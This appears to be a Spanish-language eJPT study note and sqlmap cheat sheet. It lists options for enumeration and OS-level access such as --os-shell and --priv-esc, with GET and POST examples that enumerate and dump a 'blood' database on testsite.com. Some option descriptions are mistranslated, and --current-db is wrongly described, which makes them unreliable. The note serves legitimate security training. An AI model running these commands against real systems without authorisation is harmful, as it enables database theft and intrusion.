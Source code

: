 
### **Básico comandos:**  

| **Opciones**      | **Descripción**                                                       |
| ----------------- | --------------------------------------------------------------------- |
| -u URL, --url=URL | URL objetivo (por ejemplo, "http://www.site.com/vuln.php?id=1")       |
| --data=DATA       | Cadena de datos que se enviará a través de POST (por ejemplo, "id=1") |
| --random-agent    | Usar seleccionado al azar HTTP Valor de encabezado de usuario-agente  |
| -p TESTPARAMETER  | Parámetro comprobable(s)                                              |
| --level=LEVEL     | Nivel de pruebas a realizar (1-5, por defecto 1)                      |
| --risk=RISK       | Riesgo de pruebas a realizar (1-3, por defecto 1)                     |

### **Enumeración comandos:**

- Estas opciones se pueden usar para enumerar la información, la estructura y los datos del sistema de administración de bases de datos de back-end contenidos en las tablas.


| Opciones        | Descripción                                                |
| --------------- | ---------------------------------------------------------- |
| -a, --all       | Recuperar todo                                             |
| -b, - banner    | Recuperar banner DBMS                                      |
| --current-user  | Recuperar la base de datos actual de DBMS                  |
| --current-db    | Enumerar los hashes de contraseñas de los usuarios de DBMS |
| --passwords     | Enumerar los hashes de contraseñas de los usuarios de DBMS |
| --dbs           | Enumerar bases de datos DBMS                               |
| --tables        | Enumerar tablas de bases de datos DBMS                     |
| --columns       | Enumerar columnas de tabla de base de datos DBMS           |
| --schema        | Enumerar el esquema DBMS                                   |
| --dump          | Volcar entradas de tabla de base de datos DBMS             |
| --dump-all      | Volcar todas las entradas de tablas de bases de datos DBMS |
| --is-dba        | Detectar si el usuario actual de DBMS es DBA               |
| -D "DB NAME"    | Base de datos DBMS para enumerar                           |
| -T "TABLE NAME" | Tabla de base de datos DBMS(s) para enumerar               |
| -C COL          | Columna(s) de tabla de base de datos DBMS para enumerar    |

### **Acceso al sistema operativo comandos**

- Estas opciones se pueden usar para acceder al sistema de administración de bases de datos de back-end en el sistema operativo de destino.

| Opciones       | Descripción                                                         |
| -------------- | ------------------------------------------------------------------- |
| --os-shell     | Solicitud de un shell de sistema operativo interactivo              |
| --os-pwn       | Rápido para un shell OOB, Meterpreter o VNC                         |
| --os-cmd=OSCMD | Ejecute un comando del sistema operativo                            |
| --priv-esc     | Escalamiento de privilegios de usuario del proceso de base de datos |
| --os-smbrelay  | Solicitud de un clic para un shell OOB, Meterpreter o VNC           |
Tenga en cuenta que las tablas que se muestran arriba no son todos los interruptores posibles para usar con sqlmap. Para obtener una lista más extensa de opciones, ejecute `sqlmap -hh` para mostrar el mensaje de ayuda avanzado.
Ahora que hemos visto algunas de las opciones que podemos usar con sqlmap, vamos a saltar a los ejemplos utilizando solicitudes basadas en el Método GET y POST.

  
### **Simple HTTP Prueba GET Basada**

```
sqlmap -u https://testsite.com/page.php?id=7 --dbs
```

Aquí hemos usado dos banderas: -u para indicar la URL vulnerable y --dbs para enumerar la base de datos.

### **Simple HTTP Prueba basada en POST**

- Primero, necesitamos identificar la solicitud POST vulnerable y guardarla. Para guardar la solicitud, Haga clic derecho en la solicitud, seleccione 'Copiar a archivo' y guárdela en un directorio. También puede copiar toda la solicitud y guardarla en un archivo de texto también.

![[Pasted image 20240325191912.png]]
Notará en la solicitud anterior, tenemos un parámetro POST 'sangre_grupo' que podría ser un parámetro vulnerable.

![[Pasted image 20240325191950.png]]

- Ahora que weizve identificó un parámetro potencialmente vulnerable, vamos a saltar al sqlmap y usar el siguiente comando:

```
sqlmap -r req.txt -p blood_group --dbs

sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
```

Aquí hemos usado dos banderas: -r para leer el archivo, -p para suministrar el parámetro vulnerable, y --dbs para enumerar la base de datos.

![[Pasted image 20240325192554.png]]
Ahora que tenemos las bases de datos, extraigamos tablas de la base de datos **sangre**.

### **Usando el Método basado en GET**

```
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables

sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```

  
### **Uso del método basado en POST**

```
sqlmap -r req.txt -p blood_group -D blood --tables

sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

Una vez que ejecutamos estos comandos, debemos obtener las tablas.

![[Pasted image 20240325193159.png]]Una vez que tengamos tablas disponibles, ahora vamos a reunir las columnas de la tabla sangre_db.

### **Usando el Método basado en GET**

```
sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns

sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
```

### **Uso del método basado en POST**

```
sqlmap -r req.txt -D blood -T blood_db --columns

sqlmap -r req.txt -D <database_name> -T <table_name> --columns
```

![[Pasted image 20240325193330.png]]
O simplemente podemos volcar todas las bases de datos y tablas disponibles utilizando los siguientes comandos.

### **Usando el Método basado en GET**

```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
  
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
```
  
### **Uso del método basado en POST**

```
sqlmap -r req.txt -D <database_name> --dump-all
  
sqlmap -r req.txt-p  -D <database_name> --dump-all
```


enlace
[[Preparacion-Ejpt]]